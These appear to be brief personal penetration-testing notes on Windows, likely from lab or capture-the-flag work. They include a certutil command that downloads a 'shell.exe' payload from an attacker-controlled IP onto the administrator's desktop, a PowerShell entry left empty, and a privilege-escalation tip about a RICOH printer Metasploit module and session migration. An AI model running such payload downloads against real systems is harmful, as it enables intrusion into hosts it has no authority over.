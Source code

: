 # Windows

## Useful commands

- download a file, like wget in linux

  - `certutil -urlcache -f http://10.10.14.4/shell.exe c:\users\administrator\desktop\sh.exe`

  - in powershell:
    - ``

## Windows privesc

- RICOH printer (msf module, if we are on process with session 0 (ps list), that service is non-interactive, so we migrate to interactive (session 1) process)
